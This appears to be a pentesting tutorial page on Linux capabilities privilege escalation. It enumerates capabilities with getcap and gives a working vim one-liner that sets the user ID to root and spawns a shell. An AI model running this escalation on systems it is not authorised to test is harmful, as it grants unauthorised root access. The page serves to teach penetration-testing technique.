 # Capabilities

System administrators can use "Capabilities" to manage privileges at a granular level for processes or binaries. For instance, if a SOC analyst needs to initiate socket connections, which a regular user cannot do, the administrator can modify the binary's capabilities instead of granting higher privileges. This allows the binary to perform its task without requiring elevated user rights.

We can use the `getcap` tool to list enabled capabilities, but it's good practice to use this command to redirect the error messages to /dev/null:

```bash
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that both `vim` and `view` have the Capabilities set, but as we can see from the image below neither has the SUID bit set.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can lookup on [GTFObins](https://gtfobins.github.io/) for a binary that helps us to leverage privilege escalation.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the command with `py`, or `py3` accordingly:

{% code overflow="wrap" %}
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we successfully leverage our permissions!

